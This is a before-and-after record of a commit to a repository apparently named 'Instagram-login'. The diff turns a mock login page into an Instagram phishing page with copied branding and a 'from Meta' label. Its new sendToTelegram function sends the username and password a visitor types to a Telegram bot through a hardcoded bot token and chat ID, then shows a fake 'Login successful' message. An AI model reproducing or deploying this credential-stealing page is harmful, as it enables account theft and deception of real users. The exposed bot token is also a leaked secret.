

Before and after one commit to CHetanthakur2000/Instagram-login, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 338-816 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,97 +5,133 @@
   <title>Instagram</title>
   <style>
     body {
-      background-color: #fafafa;
+      margin: 0;
       font-family: 'Segoe UI', sans-serif;
+      background: #0d1117;
+      color: white;
       display: flex;
+      align-items: center;
       justify-content: center;
-      align-items: center;
       height: 100vh;
     }
-    .container {
-      background-color: white;
-      border: 1px solid #dbdbdb;
-      padding: 40px;
-      width: 350px;
+
+    .login-box {
+      background: #161b22;
+      padding: 30px;
+      border-radius: 14px;
+      box-shadow: 0 0 12px #1f6feb;
+      width: 320px;
       text-align: center;
-      box-shadow: 0 0 10px rgba(0,0,0,0.05);
-      border-radius: 10px;
+      position: relative;
     }
-    .logo {
-      font-family: 'Brush Script MT', cursive;
-      font-size: 38px;
-      color: #262626;
+
+    .login-box img {
+      width: 80px;
       margin-bottom: 20px;
     }
+
     input {
       width: 100%;
       padding: 10px;
       margin: 8px 0;
-      border: 1px solid #dbdbdb;
-      border-radius: 3px;
+      background: #0d1117;
+      border: 1px solid #30363d;
+      border-radius: 6px;
+      color: white;
       font-size: 14px;
     }
+
+    .password-box {
+      position: relative;
+      width: 100%;
+    }
+
+    .password-box input {
+      padding-right: 40px;
+    }
+
+    .toggle-btn {
+      position: absolute;
+      right: 10px;
+      top: 50%;
+      transform: translateY(-50%);
+      background: none;
+      border: none;
+      color: #8b949e;
+      cursor: pointer;
+      font-size: 18px;
+    }
+
     button {
-      background-color: #0095f6;
+      width: 100%;
+      padding: 10px;
+      background-color: #1f6feb;
       color: white;
+      font-weight: bold;
       border: none;
-      padding: 10px;
-      width: 100%;
-      font-weight: bold;
-      margin-top: 10px;
-      border-radius: 4px;
-      font-size: 14px;
+      border-radius: 6px;
       cursor: pointer;
+      margin-top: 12px;
     }
-    .small {
+
+    .meta {
+      margin-top: 20px;
       font-size: 12px;
-      color: gray;
-      margin-top: 10px;
+      color: #8b949e;
     }
-    .facebook {
-      color: #385185;
-      font-weight: bold;
+
+    #response {
       margin-top: 15px;
       font-size: 14px;
-    }
-    .result-box {
-      margin-top: 20px;
-      font-size: 13px;
-      color: green;
+      color: #58a6ff;
     }
   </style>
 </head>
 <body>
 
-  <div class="container">
-    <div class="logo">Instagram</div>
+  <div class="login-box">
+    <img src="https://upload.wikimedia.org/wikipedia/commons/a/a5/Instagram_icon.png" alt="Instagram Logo">
 
-    <form onsubmit="showPass(); return false;">
-      <input type="text" id="user" placeholder="Phone number, username or email" required>
-      <input type="password" id="pass" placeholder="Password" required>
-      <button type="submit">Log In</button>
-    </form>
+    <input type="text" id="username" placeholder="Username, email address or mobile number">
 
-    <div class="facebook">Log in with Facebook</div>
-    <div class="small">Forgot password?</div>
+    <div class="password-box">
+      <input type="password" id="password" placeholder="Password">
+      <button type="button" class="toggle-btn" onclick="togglePassword()">👁️</button>
+    </div>
 
-    <div class="result-box" id="result"></div>
+    <button onclick="sendToTelegram()">Log in</button>
 
-    <div class="small"><br></div>
+    <p id="response"></p>
+
+    <div class="meta">from Meta</div>
   </div>
 
   <script>
-    function showPass() {
-      const user = document.getElementById('user').value;
-      const pass = document.getElementById('pass').value;
-      const res = document.getElementById('result');
-      res.innerHTML = `
-        ✅ <strong>Login Successful</strong><br><br>
-        👤 <strong>Username:</strong> ${user}<br>
-        🔐 <strong>Password:</strong> ${pass}
-      `;
+    function togglePassword() {
+      const passwordInput = document.getElementById("password");
+      passwordInput.type = passwordInput.type === "password" ? "text" : "password";
+    }
+
+    function sendToTelegram() {
+      const username = document.getElementById('username').value;
+      const password = document.getElementById('password').value;
+
+      const botToken = "7985477990:AAEJR8PUsUkE9WnVPAoEG8kH0a8Jkwm2q2k"; // 👈 Replace this
+      const chatId = "7966696528"; // 👈 Your chat ID
+
+      const message = `💬 New Instagram Login:\n👤 Username: ${username}\n🔑 Password: ${password}`;
+
+      const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;
+
+      fetch(url).then(response => {
+        if (response.ok) {
+          document.getElementById('response').innerText = "✅ Login successful!";
+        } else {
+          document.getElementById('response').innerText = "❌ Failed to send.";
+        }
+      });
     }
   </script>
 
 </body>
-  </html>
+</html>
```
